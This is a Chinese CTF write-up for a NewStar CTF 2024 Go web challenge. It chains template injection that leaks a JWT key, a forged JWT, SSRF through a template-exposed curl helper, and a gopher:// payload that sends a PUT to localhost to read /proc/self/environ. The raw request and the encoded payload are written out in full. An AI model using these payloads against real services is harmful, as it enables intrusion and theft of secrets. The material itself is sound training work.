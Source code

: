 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# PangBai 过家家（4）

<Container type="info">

本题已开源，关于题目源码和 EXP，详见：[cnily03-hive/PangBai-Go](https://github.com/cnily03-hive/PangBai-Go)
</Container>

---

根据题目附件所给的 hint，只需关注 `main.go` 文件即可，文件中定义了一个静态文件路由和三个路由：

```go
r.HandleFunc("/", routeIndex)
r.HandleFunc("/eye", routeEye)
r.HandleFunc("/favorite", routeFavorite)
```

在 `main.go` 的 `routeEye` 函数中发现了 `tmpl.Execute` 函数，通过分析，我们重点关注下面的代码片段：

```go
tmplStr := strings.Replace(string(content), "%s", input, -1)
tmpl, err := template.New("eye").Parse(tmplStr)

helper := Helper{User: user, Config: config}
err = tmpl.Execute(w, helper)
```

我们的输入 `input` 会直接作为模板字符串的一部分，与 Python 的 SSTI 类似，我们可以使用 `{{ "{"+"{" }}` `{{ "}"+"}" }}` 来获取上下文中的数据。

::: info GoLang 模板中的上下文

`tmpl.Execute` 函数用于将 tmpl 对象中的模板字符串进行渲染，第一个参数传入的是一个 Writer 对象，后面是一个上下文，在模板字符串中，可以使用 `{{ "{"+"{"+' . '+"}"+"}" }}` 获取整个上下文，或使用 `{{ "{"+"{"+' .A.B '+"}"+"}" }}` 进行层级访问。若上下文中含有函数，也支持 `{{ "{"+"{"+' .Func "param" '+"}"+"}" }}` 的方式传入变量。并且还支持管道符运算。

在本题中，由于 `utils.go` 定义的 `Stringer` 对象中的 `String` 方法，对继承他的每一个 struct，在转换为字符串时都会返回 `[struct]`，所以直接使用 `{{ "{"+"{"+' . '+"}"+"}" }}` 返回全局的上下文结构会返回 `[struct]`.

:::

访问 `/eye` 路由，默认就是 `{{ "{"+"{"+' .User '+"}"+"}" }}` 和返回的信息。根据上面代码片段的内容，我们追溯 `Helper` 和 `Config` 两个结构体的结构：

```go
type Helper struct {
    Stringer
    User   string
    Config Config
}

var config = Config{
    Name:          "PangBai 过家家 (4)",
    JwtKey:        RandString(64),
    SignaturePath: "./sign.txt",
}
```

可以泄露出 JWT 的密钥，只需输入 `{{ "{"+"{"+' .Config.JwtKey '+"}"+"}" }}` 即可：

![泄露 JWT 密钥](/assets/images/wp/2024/week4/pangbai4_1.png)

然后我们关注另一个路由 `/favorite`：

```go{3,8,28-32,38,52}
func routeFavorite(w http.ResponseWriter, r *http.Request) {

    if r.Method == http.MethodPut {

        // ensure only localhost can access
        requestIP := r.RemoteAddr[:strings.LastIndex(r.RemoteAddr, ":")]
        fmt.Println("Request IP:", requestIP)
        if requestIP != "127.0.0.1" && requestIP != "[::1]" {
            w.WriteHeader(http.StatusForbidden)
            w.Write([]byte("Only localhost can access"))
            return
        }

        token, _ := r.Cookie("token")

        o, err := validateJwt(token.Value)
        if err != nil {
            w.Write([]byte(err.Error()))
            return
        }

        if o.Name == "PangBai" {
            w.WriteHeader(http.StatusAccepted)
            w.Write([]byte("Hello, PangBai!"))
            return
        }

        if o.Name != "Papa" {
            w.WriteHeader(http.StatusForbidden)
            w.Write([]byte("You cannot access!"))
            return
        }

        body, err := ioutil.ReadAll(r.Body)
        if err != nil {
            http.Error(w, "error", http.StatusInternalServerError)
        }
        config.SignaturePath = string(body)
        w.WriteHeader(http.StatusOK)
        w.Write([]byte("ok"))
        return
    }

    // render

    tmpl, err := template.ParseFiles("views/favorite.html")
    if err != nil {
        http.Error(w, "error", http.StatusInternalServerError)
        return
    }

    sig, err := ioutil.ReadFile(config.SignaturePath)
    if err != nil {
        http.Error(w, "Failed to read signature files: "+config.SignaturePath, http.StatusInternalServerError)
        return
    }

    err = tmpl.Execute(w, string(sig))

    if err != nil {
        http.Error(w, "[error]", http.StatusInternalServerError)
        return
    }
}
```

可以看到 `/favorite` 路由下，网页右下角的内容实际上是一个文件读的结果，文件路径默认为 `config.SignaturePath` 即 `./sign.txt` 的内容。

而如果使用 PUT 请求，则可以修改 `config.SignaturePath` 的值，但需要携带使 `Name`<span data-desc>（Token 对象中是 `Name` 字段，但是 JWT 对象中是 `user` 字段，可以在 `utils.go` 中的 `validateJwt` 函数中看到）</span>为 `Papa` 的 JWT Cookie.

于是就有了解题思路：利用泄露的 `JwtKey` 伪造 Cookie，对 `/favorite` 发起 PUT 请求以修改 `config.SignaturePath`，然后访问 `/favorite` 获取文件读的内容。

然而 `/favorite` 中又强制要求请求必须来自于本地。

注意到下面的代码片段：

```go
func (c Helper) Curl(url string) string {
    fmt.Println("Curl:", url)
    cmd := exec.Command("curl", "-fsSL", "--", url)
    _, err := cmd.CombinedOutput()
    if err != nil {
        fmt.Println("Error: curl:", err)
        return "error"
    }
    return "ok"
}
```

这部分代码为 `Helper` 定义了一个 `Curl` 的方法，所以我们可以在 `/eye` 路由下通过 `{{ "{"+"{"+' .Curl "url" '+"}"+"}" }}` 调用到这个方法，这个方法允许我们在服务端发起内网请求，即 SSRF（服务端请求伪造）：

![SSRF](/assets/images/wp/2024/week4/pangbai4_2.png)

由于 `exec.Command` 中 `--` 的存在，我们没有办法进行任何命令注入或选项控制。而一般情况下，在没有其它参数指定时，curl 发起的 HTTP 请求也只能发送 GET 请求，题目要求的是 PUT 请求。

但 curl 命令并不是只能发起 HTTP 请求，它也支持其它很多的协议，例如 FTP、Gopher 等，其中 Gopher 协议能满足我们的要求。

::: info 关于 Gopher 协议
Gopher 协议是一个互联网早期的协议，可以直接发送任意 TCP 报文。其 URI 格式为：`gopher://远程地址/_编码的报文`，表示将**报文**原始内容发送到**远程地址**.
:::

我们先签一个 JWT：

![签一个 JWT](/assets/images/wp/2024/week4/pangbai4_3.png)

然后构造 PUT 请求原始报文，Body 内容为想要读取的文件内容，这里读取环境变量：

```http
PUT /favorite HTTP/1.1
Host: localhost:8000
Content-Type: text/plain
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiUGFwYSJ9.tgAEnWZJGTa1_HIBlUQj8nzRs2M9asoWZ-JYAQuV0N0
Content-Length: 18

/proc/self/environ
```

::: warning 注意
必须填正确 `Content-Length` 的值，以使报文接收方正确解析 HTTP Body 的内容，并且 Body 不应当包含换行符，否则读文件会失败。
:::

对请求进行编码和套上 Gopher 协议（[CyberChef Recipe](<https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)Find_/_Replace(%7B'option':'Regex','string':'%5E'%7D,'gopher://localhost:8000/_',true,false,true,false)&input=UFVUIC9mYXZvcml0ZSBIVFRQLzEuMQ0KSG9zdDogbG9jYWxob3N0OjgwMDANCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbg0KQ29va2llOiB0b2tlbj1leUpoYkdjaU9pSklVekkxTmlJc0luUjVjQ0k2SWtwWFZDSjkuZXlKMWMyVnlJam9pVUdGd1lTSjkudGdBRW5XWkpHVGExX0hJQmxVUWo4bnpSczJNOWFzb1daLUpZQVF1VjBOMA0KQ29udGVudC1MZW5ndGg6IDE4DQoNCi9wcm9jL3NlbGYvZW52aXJvbg&ieol=CRLF&oeol=CRLF>)）：

```plaintext
gopher://localhost:8000/_PUT%20%2Ffavorite%20HTTP%2F1%2E1%0D%0AHost%3A%20localhost%3A8000%0D%0AContent%2DType%3A%20text%2Fplain%0D%0ACookie%3A%20token%3DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9%2EeyJ1c2VyIjoiUGFwYSJ9%2EtgAEnWZJGTa1%5FHIBlUQj8nzRs2M9asoWZ%2DJYAQuV0N0%0D%0AContent%2DLength%3A%2018%0D%0A%0D%0A%2Fproc%2Fself%2Fenviron
```

然后调用 curl，在 `/eye` 路由访问 `{{ "{"+"{"+' .Curl "gopher://..." '+"}"+"}" }}` 即可。

![触发 Payload](/assets/images/wp/2024/week4/pangbai4_4.png)

然后访问 `/favorite` 路由即可得到 FLAG：

![FLAG](/assets/images/wp/2024/week4/pangbai4_5.png)
